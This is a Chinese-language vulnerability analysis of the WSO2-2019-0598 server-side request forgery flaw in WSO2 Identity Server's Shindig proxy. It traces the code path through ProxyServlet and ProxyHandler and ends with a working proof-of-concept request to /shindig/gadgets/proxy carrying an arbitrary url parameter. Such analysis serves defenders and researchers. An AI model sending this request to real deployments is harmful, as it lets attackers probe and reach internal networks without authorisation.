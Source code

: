 # WSO2 proxy SSRF漏洞 WSO2-2019-0598

## 漏洞描述

滥用 shindig Web 应用程序的 UI 小工具加载功能可以利用此漏洞。攻击者可以更改请求中的特定 URL，从而导致服务器向更改后的 URL 发起 GET 请求。通过利用此漏洞，攻击者可以使用服务器执行任意外部服务交互。这可以特别用于与内部网络的节点进行交互，否则这些节点会被网络规则隐藏在外部。攻击者可以利用它来追踪和侦察网络，除此之外，如果有内部端点对 GET 请求进行状态更改操作，那么就有可能很好地破坏它们的完整性。根据端点实施的保护级别，此漏洞的影响可能会有所不同。

## 漏洞影响

```
WSO2 Identity Server 5.2.0 , 5.3.0 , 5.4.0 , 5.4.1 , 5.5.0 , 5.6.0 , 5.7.0
WSO2 IS as Key Manager 5.3.0 , 5.5.0 , 5.6.0 , 5.7.0
```

## 环境搭建

https://github.com/wso2/product-is/releases/download/v5.6.0-rc3/wso2is-5.6.0-rc3.zip

## 漏洞复现

根据官方描述，漏洞造成的原因主要是 shindig Web 应用程序的 UI 小工具的加载功能, [WSO2-2019-0598](https://docs.wso2.com/display/Security/Security+Advisory+WSO2-2019-0598)

![](./images/202205241706233.png)

下载源码启动环境，在IDEA中调试

![](./images/202205241706823.png)

![](./images/202205241707257.png)

根据官方描述，在全局搜索 shindig 相关代码

![](./images/202205241707162.png)

打下断点，看一下访问 `/shindig/gadgets/js` 路径时代码的调用流程

![](./images/202205241707337.png)

可以看到当访问此路径时，调用了对应的 Servlet 下的 doGet方法 来处理`(org.apache.shindig.gadgets.servlet.JsServlet.doGet(JsServlet.java:86)`

![](./images/202205241707039.png)

我们可以在文件 `conf/shindig/web.xml 找到对应的调用方法`

![](./images/202205241707053.png)

看到这我们注意到 `org.apache.shindig.gadgets.servlet.MakeRequestServlet` 似乎与 Jira未授权SSRF漏洞(CVE-2019-8451) 中存在的漏洞点十分的相似

![](./images/202205241707509.png)

但断点调试过程中，却发现这个点是利用失败的

![](./images/202205241707755.png)

![](./images/202205241708844.png)

只好去看一下其他的Servele , 最后我们注意到 ProxyServlet

![](./images/202205241708016.png)

发送请求包，打断点看一下处理流程

```
GET /shindig/gadgets/proxy?container=default&url=https://www.baidu.com HTTP/1.1
Host: localhost:9443
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
```

通过 `org.apache.shindig.gadgets.servlet.ProxyServlet` 下的 doGet方法接收参数， 传入 `processRequest`

中

```
private void processRequest(HttpServletRequest request, HttpServletResponse servletResponse) throws IOException {
        if (request.getHeader("If-Modified-Since") != null) {
            servletResponse.setStatus(304);
        } else {
            Uri reqUri = (new UriBuilder(request)).toUri();

            HttpResponse response;
            try {
                ProxyUri proxyUri = this.proxyUriManager.process(reqUri);
                SecurityToken st = AuthInfoUtil.getSecurityTokenFromRequest(request);
                proxyUri.setSecurityToken(st);
                proxyUri.setUserAgent(request.getHeader("User-Agent"));
                if (proxyUri.getGadget() == null && st != null && !st.isAnonymous()) {
                    proxyUri.setGadget(st.getAppUrl());
                }

                AuthType authType = proxyUri.getAuthType();
                if (AuthType.OAUTH.equals(authType)) {
                    proxyUri.setOAuthArguments(new OAuthArguments(AuthType.OAUTH, request));
                } else if (AuthType.OAUTH2.equals(authType)) {
                    proxyUri.setOAuth2Arguments(new OAuth2Arguments(request));
                }

                String host = request.getHeader("Host");
                if (!this.lockedDomainService.isSafeForOpenProxy(host)) {
                    Uri resourceUri = proxyUri.getResource();
                    String msg = "Embed request for url " + (resourceUri != null ? resourceUri.toString() : "n/a") + " made to wrong domain " + host;
                    if (LOG.isLoggable(Level.INFO)) {
                        LOG.logp(Level.INFO, classname, "processRequest", "embededImgWrongDomain", new Object[]{resourceUri != null ? resourceUri.toString() : "n/a", host});
                    }

                    throw new GadgetException(Code.INVALID_PARAMETER, msg, 400);
                }

                if ("POST".equalsIgnoreCase(request.getMethod())) {
                    StringBuffer buffer = this.getPOSTContent(request);
                    response = this.proxyHandler.fetch(proxyUri, buffer.toString());
                } else {
                    response = this.proxyHandler.fetch(proxyUri);
                }
            } catch (GadgetException var11) {
                response = ServletUtil.errorResponse(new GadgetException(var11.getCode(), var11.getMessage(), 400));
            }

            ServletUtil.copyToServletResponseAndOverrideCacheHeaders(response, servletResponse);
        }
    }
```

向下跟进到`org.apache.shindig.gadgets.servlet.ProxyHandler`

![](./images/202205241708606.png)

`org.apache.shindig.gadgets.servlet.ProxyHandler.fatch`

![](./images/202205241709066.png)

接着向下看到 org.apache.shindig.gadgets.servlet.ProxyHandler 下的 `buildHttpRequest` 方法创建Http请求， 而目标就是我们刚刚传入的Url参数

```
 private HttpRequest buildHttpRequest(ProxyUri uriCtx, Uri tgt, @Nullable String postBody) throws GadgetException, IOException {
        ServletUtil.validateUrl(tgt);
        HttpRequest req = uriCtx.makeHttpRequest(tgt);
        req.setRewriteMimeType(uriCtx.getRewriteMimeType());
        if (postBody != null) {
            req.setMethod("POST");
            req.setPostBody(new ByteArrayInputStream(postBody.getBytes()));
        }

        if (req.getHeader("User-Agent") == null) {
            String userAgent = uriCtx.getUserAgent();
            if (userAgent != null) {
                req.setHeader("User-Agent", userAgent);
            }
        }

        return req;
    }
```

![](./images/202205241709229.png)

![](./images/202205241709438.png)

最后回显至页面中, 造成存在回显的SSRF

![](./images/202205241709588.png)

![](./images/202205241709610.png)